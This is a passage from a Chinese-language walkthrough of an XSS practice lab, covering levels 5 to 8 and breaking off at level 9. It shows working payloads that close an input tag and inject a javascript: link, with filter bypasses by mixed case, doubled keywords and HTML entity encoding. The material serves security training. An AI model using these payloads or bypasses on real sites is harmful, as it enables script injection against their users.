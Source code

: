 既要闭合input标签内部，又要使得链接标签写入前端写法如下

原始input标签

```html
<input name=keyword  value="3333 ">
```

闭合inoput并构造添加一个超链接标签(注意前后双引号闭合)

```html
<input name=keyword  value="3333"><a href="javascript:alert(1);">链接文本</a><"">
```

则需要提交到搜索框中的部分为

```html
3333"><a href="javascript:alert(1);">链接文本</a><"
```

提交后XSS执行成功

##### Level-6——`<script`、`on`、`src`、`href`关键字都会被过滤——大小写绕过过滤

`str_replace()` 函数以其他字符替换字符串中的一些字符（区分大小写）。

由于区分大小写，这时我们尝试将提交XSS语句中涉及过滤关键字的部分大小写绕过(这里只是单纯过滤关键字，没有使用正则表达式匹配，如果使用了正则匹配，则无法大小写绕过过滤)，则XSS语句写成

```
3333"><a Href="javascript:alert(1);">链接文本</a><"
```

提交后执行成功

##### Level-7——`<script`、`on`、`src`、`href`关键字都会被过滤且大小写无法绕过——关键字双写绕过

我们看到过滤代码只进行一次过滤，而非递归或循环过滤，因此我们将涉及的过滤关键字再写一遍插入到原关键字中，使得过滤时触发关键字被替换为空，过滤后又拼组成关键字并带到前端。则XSS语句为

```
3333"><a hrhrefef="javascscriptript:alert(1);">链接文本</a><"
```

提交后执行成功

##### Level-8——关键字、大小写、双写无法绕过——Unicode编码绕过

基于以上的过滤手法，我们想到编码绕过思路

在超级加解密工具中选择编码方式为

![202203061013324](https://img.yatjay.top/md/202203261113755.png)

对提交内容进行编码后在提交，`javascript:alert(1);`的编码结果如下：

```
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;&#59;
```

提交后点击友情链接，成功触发XSS代码

##### Level-9——关键字、大小写、双写无法绕过+检查`http://`
